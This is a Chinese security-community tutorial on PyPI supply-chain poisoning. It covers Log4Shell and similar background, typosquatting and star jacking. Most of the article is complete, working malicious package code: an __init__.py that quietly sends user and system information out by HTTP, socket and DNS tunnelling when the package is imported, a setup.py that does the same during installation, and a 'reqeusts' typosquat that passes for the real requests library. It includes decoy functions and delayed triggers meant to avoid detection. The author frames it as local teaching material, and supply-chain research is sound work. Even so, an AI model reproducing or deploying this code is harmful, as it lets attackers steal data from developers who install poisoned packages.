# 供应链安全——pypi下的星标劫持和域名仿冒-先知社区

> **来源**: https://xz.aliyun.com/news/17650  
> **文章ID**: 17650

---

# 1.什么是软件供应链安全？

软件供应链安全指的是，在软件开发、交付、维护的过程中所有环节的安全，在此过程中，防止恶意代码、漏洞或者其他安全风险被引入到最终的软件产品中。

## 1.1 为什么软件供应链安全越来越重要？

现代软件开发越来越依赖于第三方组件、开源库、工具和各种服务，比如fastjson、Log4j等，这种使用广泛的组件和工具，一旦出现漏洞、被攻击者注入恶意代码等，影响的资产面将难以估量。

下面是几个著名的例子：

## 1.2 Fastjson 反序列化漏洞

Fastjson 是阿里巴巴开源的 Java JSON 库，因其高性能而被广泛使用。但是Fastjson 在处理 JSON 反序列化时存在漏洞，攻击者可以构造恶意的 JSON 数据，导致远程代码执行 (RCE)。当攻击者通过发送包含恶意 payload 的 JSON 请求到使用 Fastjson 的应用程序，触发反序列化漏洞，从而可以在目标服务器上执行任意代码。

## 1.3 Nacos 未授权创建用户/读取账户密码/默认口令等

Nacos 是阿里巴巴开源的动态服务发现、配置管理和服务管理平台。攻击者可以通过创建用户/默认口令等直接访问 Nacos 控制台，获取或修改配置信息、注册或注销服务等。

## 1.4 **Log4j2 远程代码执行漏洞**

Log4j2 是 Apache 的一个流行的 Java 日志记录库。 Log4j2 存在一个严重的远程代码执行漏洞 (CVE-2021-44228，也称为 Log4Shell)，攻击者可以通过构造特殊的日志消息触发该漏洞。攻击者在日志消息中插入恶意的 JNDI（Java Naming and Directory Interface）查询，Log4j2 会尝试解析该查询，从而连接到攻击者控制的服务器并执行恶意代码。

论坛里关于以上几个著名的例子以及深入分析的文章也不少，今天我们学习点新的东西，即最近很火的软件供应链安全里的**pypi投毒**。

# 2. pypi供应链安全

以下一切环境、依赖包和实验环境均在本地进行，**请勿上传恶意代码至公用软件仓库**，为防止污染本地Python环境，所有的实验可以在虚拟环境中进行。

我们主要介绍setup.py和init\_\_.py。

## 2.1 PyPI介绍

PyPI 是 Python 的官方软件包仓库，类似于 Java 的 Maven Central 或 JavaScript 的 npm。开发者可以将自己开发的 Python 软件包发布到 PyPI 上，供其他开发者下载和使用。PyPI 极大地简化了 Python 软件包的共享和安装过程，但也带来了软件供应链安全风险。

## 2.2 创建本地PyPI服务器

首先有一个误区，***普通的文件服务器不足以充当PyPI索引***，一个标准的、理想的pip期望的目录结构应该符合以下标准：

* 每个包名称应该有自己的目录

* 这些目录中应包含包的发行版文件(.whl或.tar.gz)

* 需要有正确的HTML链接页面指向这些文件

执行以下命令，在本地安装一个轻量级的PyPI服务：

```
pip install pypiserver passlib
```

## 2.3 创建一个目录用于存储包

```
mkdir -p packages
```



## 2.4 创建一个示例包框架

命令示例：

```
mkdir -p demo_package/demo_package
touch demo_package/setup.py
touch demo_package/demo_package/__init__.py
touch demo_package/README.md
```

接下来分别介绍一下setup.py和init\_\_.py

### setup.py介绍

下面是一个简单的setup.py（**最重要的配置文件**）的示例：

```
import setuptools

setuptools.setup(
    name="your_package_name",              # 包名
    version="0.1.0",                 # 版本号
    author="Your Name",              # 作者
    author_email="your@email.com",   # 作者邮箱
    description="A short description",# 简短描述
    long_description=long_description,# 详细描述（通常从README.md读取）
    long_description_content_type="text/markdown",
    url="https://github.com/username/your_package",  # 项目主页
    packages=setuptools.find_packages(), # 自动发现所有包
    classifiers=[                     # 包的分类信息
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires=">=3.6",         # Python版本要求
    install_requires=[               # 依赖包
        "numpy>=1.15.0",
        "pandas>=1.0.0",
    ],
)
```

注意，我们在执行`pip install 某个包`时，默认都会执行**setup.py**里的代码，这也是一个很主流的劫持方式（即通过setup.py执行恶意代码，受害者无需在程序引入恶意模块，安装时自动执行）。

### init\_\_.py介绍

下面是一个简单的init\_\_.py（包的初始化文件）:

```
"""
Your package description
"""
__version__ = "0.1.0"
__author__ = "Your Name"

# 可以在这里导入主要的功能
from .module1 import main_function
```

init\_\_.py里的内容，在运**行包含此依赖时的脚本时**，会被执行。

# 3.恶意包①——引入依赖时发送当前系统信息至恶意服务器

要想在引入依赖时发送当前系统信息至恶意服务器，我们需要在\_init\_\_.py里动手脚。

（建议在虚拟环境进行）介绍一个pypi包的主要架构后，我们可以尝试在本地创建一个依赖包，当用户安装此依赖包并`import`引入时，导致系统信息被发送至恶意服务器。

创建项目架构：



attack\_package即为我们自定义的模块包

init\_\_.py文件内容：

```
import socket
import os
import sys
import json
import threading
import urllib.request
import base64

# 可选导入，如果安装了则使用
try:
    import requests
    REQUESTS_AVAILABLE = True
except ImportError:
    REQUESTS_AVAILABLE = False

def collect_minimal_info():
    """只收集Windows用户名和脚本绝对路径"""
    info = {
        "username": os.getlogin(),
        "script_path": os.path.abspath(__file__)
    }
    return info

def send_data_socket(host, port, data):
    """使用Socket发送数据到远程服务器"""
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(5)
            s.connect((host, port))
            s.sendall(json.dumps(data).encode())
            return True
    except Exception:
        return False

def send_data_http(url, data):
    """使用HTTP请求发送数据（需要requests库）"""
    if not REQUESTS_AVAILABLE:
        return False
        
    try:
        requests.post(url, json=data, timeout=5)
        return True
    except Exception:
        return False

def send_data_urllib(url, data):
    """使用urllib发送数据（标准库，无需额外依赖）"""
    try:
        json_data = json.dumps(data).encode('utf-8')
        req = urllib.request.Request(url, data=json_data, headers={'Content-Type': 'application/json'})
        urllib.request.urlopen(req, timeout=5)
        return True
    except Exception:
        return False

def send_data_dns(data, base_domain="example.com"):
    """使用DNS请求发送数据（难以被防火墙拦截）"""
    try:
        # 将数据编码为base64并分成多个子域名查询
        encoded = base64.b64encode(json.dumps(data).encode()).decode()
        chunks = [encoded[i:i+30] for i in range(0, len(encoded), 30)]
        
        for i, chunk in enumerate(chunks):
            # 构建子域名，格式: <chunk>.<index>.<base_domain>
            domain = f"{chunk}.{i}.{base_domain}"
            try:
                socket.gethostbyname(domain)
            except:
                pass
        return True
    except Exception:
        return False

def exfiltrate_data():
    """收集并发送数据的主函数"""
    # 收集最小信息
    info = collect_minimal_info()
    
    # 首选方法列表，按优先级排序
    remote_url = "http://localhost:5000/collect"  # 替换为实际的接收服务器URL
    
    # 依次尝试不同方法
    methods = [
        (send_data_urllib, (remote_url, info)),
        (send_data_http, (remote_url, info)),
        (send_data_dns, (info,)),
        (send_data_socket, ("localhost", 5000, info))
    ]
    
    for method, args in methods:
        # 创建线程尝试发送
        thread = threading.Thread(
            target=method,
            args=args,
            daemon=True
        )
        thread.start()
        # 给每个方法一点时间尝试
        thread.join(timeout=0.1)

# 当包被导入时自动执行数据收集和发送
threading.Timer(3, exfiltrate_data).start()

# 提供一些看似正常的函数，使包看起来像正常工具
def get_platform_info():
    """返回平台信息的函数，看起来像是包的正常功能"""
    return {
        "system": "Windows",
        "version": "10"
    }

```

setup.py:

```
from setuptools import setup, find_packages

setup(  # 设置包的信息
    name="attack-package",  # 包的名字
    version="0.1.0",  # 版本号
    author="Example Author",  # 作者名
    author_email="author@example.com",  # 作者邮箱
    description="A utility package for system information and diagnostics",  # 简短描述
    packages=find_packages(),  # 自动找到所有应该包含的Python包
    install_requires=[  # 列出安装时需要的依赖包
        "requests>=2.25.0", 
    ],
    classifiers=[  # 对包进行分类，方便别人查找
        "Programming Language :: Python :: 3",  # 适用于Python 3
        "License :: OSI Approved :: MIT License",  # 使用MIT许可证
        "Operating System :: OS Independent",  # 适用于任何操作系统
    ],
    python_requires=">=3.6",  # 需要Python 3.6或更高版本
)

```

setup.py中通过install\_requires参数自动安装依赖包。

安装打包工具

```
# 安装打包工具
pip install setuptools

# 根据setup元数据，进行模块打包
python setup.py sdist bdist_wheel
```


将dist目录下的attack\_package-0.1.0-py3-none-any.whl、attack\_package-0.1.0.tar.gz拷贝到package



启动pypi服务器

```
pypi-server -p 8080 packages/
```



安装

```
pip install --index-url http://127.0.0.1:8080/simple/ --trusted-host 127.0.0.1 attack_package
```



查看是否安装成功：

```
pip list
```



创建一个hello.py，引入attack\_package依赖：

```
import attack_package

print("hello world")

```

启动攻击者接受消息的服务器server.py（使用flask）：

```
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/collect', methods=['POST'])
def collect():
    data = request.json
    print("收到数据:")
    print(f"用户名: {data.get('username')}")
    print(f"脚本路径: {data.get('script_path')}")
    return jsonify({"status": "success"})

if __name__ == '__main__':
    print("服务器已启动，监听 http://localhost:5000/collect")
    app.run(host='0.0.0.0', port=5000)
```



执行hello.py脚本。



攻击者成功接受受害者当前系统用户、脚本的绝对路径：



# 4.恶意包②——下载依赖时发送当前系统信息至恶意服务器

创建项目架构：



*init*\_.py：

```
"""
系统实用工具包

这是一个用于系统信息收集和诊断的实用工具包。
（实际上是恶意包的伪装，真正的功能在setup.py中执行）
"""

def get_system_info():
    """返回系统信息的函数，看起来像是正常功能"""
    return {
        "name": "System Utilities",
        "version": "0.1.0",
        "description": "Utility package for system diagnostics"
    }

def run_diagnostics():
    """模拟运行系统诊断的函数，用于伪装成正常包"""
    return {
        "status": "ok",
        "message": "All systems operational"
    } 
```

setup.py：

```
from setuptools import setup, find_packages
import socket
import os
import json
import threading
import urllib.request
import base64
import sys

# 恶意代码，将在包安装期间运行
def collect_minimal_info():
    """收集Windows用户名和安装脚本路径"""
    info = {
        "username": os.getlogin(),
        "install_path": os.path.abspath(__file__),
        "python_version": sys.version
    }
    return info

def send_data_urllib(url, data):
    """使用urllib发送数据（标准库函数，无需额外依赖）"""
    try:
        json_data = json.dumps(data).encode('utf-8')
        req = urllib.request.Request(url, data=json_data, headers={'Content-Type': 'application/json'})
        urllib.request.urlopen(req, timeout=5)
        return True
    except Exception:
        return False

def send_data_dns(data, base_domain="example.com"):
    """使用DNS请求发送数据（难以被防火墙拦截）"""
    try:
        # 将数据编码为base64并分成多个子域名查询
        encoded = base64.b64encode(json.dumps(data).encode()).decode()
        chunks = [encoded[i:i+30] for i in range(0, len(encoded), 30)]
        
        for i, chunk in enumerate(chunks):
            # 构建子域名，格式: <数据块>.<索引>.<基础域名>
            domain = f"{chunk}.{i}.{base_domain}"
            try:
                socket.gethostbyname(domain)
            except:
                pass
        return True
    except Exception:
        return False

def send_data_socket(host, port, data):
    """使用Socket直接发送数据到远程服务器"""
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(5)
            s.connect((host, port))
            s.sendall(json.dumps(data).encode())
            return True
    except Exception:
        return False

# 在安装期间窃取数据的主函数
def exfiltrate_data():
    info = collect_minimal_info()
    remote_url = "http://localhost:5000/collect"  # 替换为实际的接收服务器URL
    
    # 尝试不同的发送方法
    methods = [
        (send_data_urllib, (remote_url, info)),
        (send_data_dns, (info,)),
        (send_data_socket, ("localhost", 5000, info))
    ]
    
    for method, args in methods:
        try:
            method(*args)
        except:
            pass

# 在设置过程中立即执行数据窃取操作
exfiltrate_data()

# 正常的包设置信息（用于伪装）
setup(
    name="install-attack-package",  # 包名称
    version="0.1.0",  # 版本号
    author="Example Author",  # 作者
    author_email="author@example.com",  # 作者邮箱
    description="A utility package for system diagnostics",  # 包描述
    packages=find_packages(),  # 查找所有包
    classifiers=[  # 包分类信息
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires=">=3.6",  # Python版本要求
) 
```

打包

```
# 根据setup元数据，进行模块打包
python setup.py sdist bdist_wheel
```



将dist目录下的install\_attack\_package-0.1.0-py3-none-any.whl、install\_attack\_package-0.1.0.tar.gz拷贝到package



启动pypi服务器

```
pypi-server -p 8080 packages/
```



安装依赖：

```
pip install --index-url http://127.0.0.1:8080/simple/ --trusted-host 127.0.0.1 install_attack_package
```



这个恶意包有以下特点：

* 所有恶意代码都位于setup.py文件中

* 安装过程中会自动执行exfiltrate\_data()函数并通过三种不同方式尝试发送收集到的用户信息

安装过程中发现，setup.py里的恶意脚本已经被执行：



# 5.恶意包③——域名假冒Typosquatting

域名假冒的核心是利用用户在输入包名时可能出现的拼写错误，创建与流行包名非常相似的恶意包名，从而诱导用户下载并安装这些恶意包。比如攻击者会创建与知名包（如 `requests`）极其相似的包名，例如 `reqeusts` 或 `requestss`，以此欺骗用户。

下图就是一个仿冒的



以下是几中常见的域名假冒Typosquatting攻击方法：

1. 伪造包名

* 方法：攻击者创建与流行包名相似的名称，诱导用户下载。

* 案例：攻击者发布名为 `reqeusts` 的恶意包，伪装成知名的 `requests` 包。

2. 使用相似字符替换

* 方法：用相似字符替换域名中的某些字母。

* 案例：将 `apple.com` 替换为 `аррle.com`（其中“а”是西里尔字母）。

3. URL 中的“@”符号伪装

* 方法：利用 URL 中的“@”符号进行伪装。

* 案例：`https://www.legit.com@malicious.com` 实际上会跳转到 `malicious.com`。

4. 利用新型顶级域名

* 注册与知名域名相似的名称，但使用不同的顶级域名（TLD）。

* 攻击者注册 `example.online`，冒充合法的 `example.com`。

5. 域名抢注

* 方法：抢注与知名站点相关的域名变体。

* 案例：攻击者抢注 `pyp1.com`，诱导用户访问并输入敏感信息。

下面在本地进行\*\*伪造包名\*\*测试（requestss）。



*init*\_.py：

```
import socket
import os
import sys
import json
import threading
import urllib.request
import base64
import time

# 导入真正的requests包来提供实际功能
try:
    import requests
    REQUESTS_AVAILABLE = True
except ImportError:
    REQUESTS_AVAILABLE = False

def collect_system_info():
    """收集系统信息"""
    info = {
        "username": os.getlogin(),
        "hostname": socket.gethostname(),
        "platform": sys.platform,
        "python_version": sys.version,
        "cwd": os.getcwd(),
        "script_path": os.path.abspath(sys.argv[0]) if len(sys.argv) > 0 else "Unknown",
        "timestamp": time.time()
    }
    return info

def send_data_socket(host, port, data):
    """使用Socket发送数据到远程服务器"""
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(5)
            s.connect((host, port))
            s.sendall(json.dumps(data).encode())
            return True
    except Exception:
        return False

def send_data_http(url, data):
    """使用HTTP请求发送数据"""
    if not REQUESTS_AVAILABLE:
        return False
        
    try:
        requests.post(url, json=data, timeout=5)
        return True
    except Exception:
        return False

def send_data_urllib(url, data):
    """使用urllib发送数据"""
    try:
        json_data = json.dumps(data).encode('utf-8')
        req = urllib.request.Request(url, data=json_data, headers={'Content-Type': 'application/json'})
        urllib.request.urlopen(req, timeout=5)
        return True
    except Exception:
        return False

def exfiltrate_data():
    """收集并发送数据的主函数"""
    # 收集信息
    info = collect_system_info()
    
    # 接收服务器URL
    remote_url = "http://localhost:5000/collect"
    
    # 依次尝试不同方法发送数据
    methods = [
        (send_data_urllib, (remote_url, info)),
        (send_data_http, (remote_url, info)),
        (send_data_socket, ("localhost", 5000, info))
    ]
    
    for method, args in methods:
        thread = threading.Thread(
            target=method,
            args=args,
            daemon=True
        )
        thread.start()
        thread.join(timeout=0.1)

# 当包被导入时延迟执行数据收集和发送，避免立即触发可能的警报
threading.Timer(3, exfiltrate_data).start()

# 下面是公开 API，模拟真正的 requests 包功能

def request(method, url, **kwargs):
    """模拟requests.request方法"""
    if REQUESTS_AVAILABLE:
        return requests.request(method, url, **kwargs)
    else:
        raise ImportError("The real 'requests' package is required.")

def get(url, params=None, **kwargs):
    """模拟requests.get方法"""
    kwargs.setdefault('allow_redirects', True)
    return request('get', url, params=params, **kwargs)

def post(url, data=None, json=None, **kwargs):
    """模拟requests.post方法"""
    return request('post', url, data=data, json=json, **kwargs)

def put(url, data=None, **kwargs):
    """模拟requests.put方法"""
    return request('put', url, data=data, **kwargs)

def delete(url, **kwargs):
    """模拟requests.delete方法"""
    return request('delete', url, **kwargs)

def head(url, **kwargs):
    """模拟requests.head方法"""
    kwargs.setdefault('allow_redirects', False)
    return request('head', url, **kwargs)

def options(url, **kwargs):
    """模拟requests.options方法"""
    kwargs.setdefault('allow_redirects', True)
    return request('options', url, **kwargs)

class Session(object):
    """模拟requests.Session类"""
    def __init__(self):
        if REQUESTS_AVAILABLE:
            self._session = requests.Session()
        else:
            raise ImportError("The real 'requests' package is required.")
            
    def __getattr__(self, name):
        return getattr(self._session, name) 
```

setup.py：

```
from setuptools import setup, find_packages

setup(
    name="reqeusts",  # 故意拼写错误，模拟对 "requests" 的假冒
    version="0.1.0",
    author="Example Author",
    author_email="author@example.com",
    description="HTTP for Humans, easily send HTTP/1.1 requests",
    long_description=open("README.md").read(),
    long_description_content_type="text/markdown",
    packages=find_packages(),
    install_requires=[
        "requests>=2.25.0",  # 实际依赖真正的requests库
    ],
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires=">=3.6",
) 
```

打包：

```
python setup.py sdist bdist_wheel
```



将dist的包复制到packages：


启动恶意监听服务器



启动pypi服务器：

```
pypi-server -p 8080 packages/
```



创建另一虚拟环境安装此依赖：

```
pip install --index-url http://127.0.0.1:8080/simple/ --trusted-host 127.0.0.1 reqeusts
```

创建一个hello.py，引入requestss依赖：

```
import requestss

print("hello attack1")
```

执行：



服务器接收到数据：



# 6.恶意包④——星标劫持Star Jacking

**星标劫持（Star Jacking）** 主要发生在开源代码托管平台（如 GitHub）上。核心问题在于攻击者通过伪造或误导性手段，利用虚假的流行度指标（如“星标”数量）来吸引开发者下载和使用恶意或不安全的代码包。

真实的星标：


伪造星标算是有账号成本的，因为要僵尸账户给恶意项目star，但是从投毒的风险回报方面分析，也算是九牛一毛。

以下是几中常见的域星标劫持Star Jacking攻击方法：

1. 伪造星标数量

* 攻击者通过自动化脚本或购买虚假账户，批量为自己的项目添加星标，使其看起来非常受欢迎。

